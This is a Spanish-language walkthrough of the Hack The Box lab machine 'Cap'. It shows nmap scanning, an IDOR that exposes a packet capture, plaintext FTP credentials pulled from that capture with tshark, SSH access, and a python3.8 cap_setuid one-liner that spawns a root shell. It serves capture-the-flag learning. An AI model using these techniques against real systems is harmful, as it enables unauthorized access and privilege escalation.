 ```yaml
---
layout: single
title: Cap - Hack The Box
excerpt: "En esta máquina de dificultad fácil de HTB, iniciamos reconociendo una web donde podemos descargar capturas de trafico, las cuales posteriormente analizamos con tshark, encontrando credenciales en texto plano, para luego conectarnos por ssh, conseguir la flag user y ganar acceso root explotando una capabilitie mal asignada"
date: 2021-10-3
classes: wide
header:
  teaser: /assets/images/htb-writeup-cap/Cap.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - linux
tags:
  - web
  - tshark
  - ssh
  - capabilities
  - python3.8
  - uid
---
```


<p align="center">
<img src="/assets/images/htb-writeup-cap/img_header.png">
</p>

Iniciamos haciendo un escaneo básico de puertos con **nmap**

> Esta vez no hago uso de ```--min-rate``` ya que solo con el ```-T5``` iba a buena velocidad

```bash
~$> sudo nmap -p- --open -T5 -v -n -Pn 10.10.10.234
```
 - ```-p-``` -> Todo el rango de puertos (1-65535)
 - ```--open``` -> Mostrar solo puertos abiertos
 - ```-T``` -> Controlar el temporizado, en este caso uso el máximo (5)
 - ```-v``` -> Triple verbose para ver los avances del escaneo antes de que acabe
 - ```-n``` -> Quitar la resolución DNS
 - ```-Pn``` -> Para no aplicar host discovery

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-16 18:42 -05
Initiating Connect Scan at 18:42
Scanning 10.10.10.245 [65535 ports]
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Discovered open port 22/tcp on 10.10.10.245
10.10.10.245 timed out during Connect Scan (0 hosts left)
Completed Connect Scan at 18:57, 900.04s elapsed (1 host timed out)
Nmap scan report for 10.10.10.245
Host is up (0.11s latency).
Skipping host 10.10.10.245 due to host timeout
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 900.16 seconds
```
Encontramos **3** puertos externamente abiertos:

  - ```80``` -> http
  - ```22``` -> ssh
  - ```21``` -> ftp

Ya que hay un servicio **ftp**, intenté conectarme como el usuario **anonymous** sin proporcionar contraseña

```bash
~$> ftp 10.10.10.245
```
Pero el servidor no acepta conecciones de usuarios anonimos

```bash
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:invertebrado): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp>
```
Entonces tenemos que buscar por otro lado

Otro puerto que vemos es el **80**, con un servicio **http**, así que vamos a analizarlo directamente desde el navegador

<p align="center">
<img src="/assets/images/htb-writeup-cap/img1.png">
</p>

A demás del usuario (**nathan**)

<p align="center">
<img src="/assets/images/htb-writeup-cap/img2.png">
</p>

no encontramos nada que nos sirva de momento

Si desplegamos el panel lateral, vemos algunas secciones de la web

la primera nos llama la atención ya que nos dice que se hace una captura cada 5 segs, así que entramos en esta

<p align="center">
<img src="/assets/images/htb-writeup-cap/img3.png">
</p>

<p align="center">
<img src="/assets/images/htb-writeup-cap/img4.png">
</p>

Aquí nos encontramos con algunos registros y un boton (**Download**) con el que podemos descargar una captura (**.pcap**)

Si la descargamos y la analizamos, en mi caso con **tshark**

```bash
~$> tshark -r 3.pcap
```
Veremos que no hay nada que nos sirva

Volviendo a la web, vemos que en la url se nos muestra el mismo número de la captura (en mi caso **3**)

<p align="center">
<img src="/assets/images/htb-writeup-cap/img5.png">
</p>

Si cambiamos este por cualquier otro, descargamos la captura y la analizamos nuevamente con **tshark** (igual que en el paso anterior), vamos a ver que se nos lista información diferente, pero que sigue siendo irrelevante

Pero si cambiamos este identificador por un **0**

<p align="center">
<img src="/assets/images/htb-writeup-cap/img6.png">
</p>

Descargamos la captura

<p align="center">
<img src="/assets/images/htb-writeup-cap/img7.png">
</p>

Y la volvemos a analizar

```bash
~$> tshark -r 0.pcap | grep -E -i "user|pass"
```
```bash
   36   4.126500 192.168.196.1 → 192.168.196.16 FTP 69 Request: USER nathan
   40   5.424998 192.168.196.1 → 192.168.196.16 FTP 78 Request: PASS Buck3tH4TF0RM3!
```
Encontramos credenciales en texto plano!

Con estas credenciales podríamos conectarnos por ftp y optener la flag (**user.txt**), pero estas tambien nos sirven para conectarnos por **ssh** (aprovechando que está habilitado el puerto **22**), así que mejor nos conectamos de esta manera

```bash
~$> ssh nathan@10.10.10.245
nathan@10.10.10.245's password:
```
```bash
[ ... ... ]
nathan@cap:~$ 
```
Una vez aquí podemos leer la flag

```bash
nathan@cap:~$ cat user.txt
```
Y continuamos

En este punto sigue convertirnos en **root**

Despues de listar permisos **SUID** y buscar un poco por el sistema, recorde que la máquina se llama **Cap** y se me ocurrió buscar por **capabities**

```bash
nathan@cap:~$ cd /
nathan@cap:~$ getcap -r / 2>/dev/null
```
 - ```2>/dev/null``` -> Redireccionamiento del **stderr** al ```/dev/null``` (De esta manera no se me mostrarán errores)

Obteniendo lo esto:

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
Vemos algunos **binarios** comunes, pero lo primero que se nos lista es ```/usr/bin/python3.8```, una vez visto esto ya sabemos que tendremos **root** fácilmente tal que así:

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:/# whoami
root
```
> El **uid 0** cooresponde al del usuario **root**, por eso si seteamos nuestro **uid** con este valor, nos convertimos en **root**
Ya somos **root**!

Ahora podemos dirigirnos al directorio ```/root``` y leer la flag

```bash
root@cap:/# cd /root && cat root.txt
```
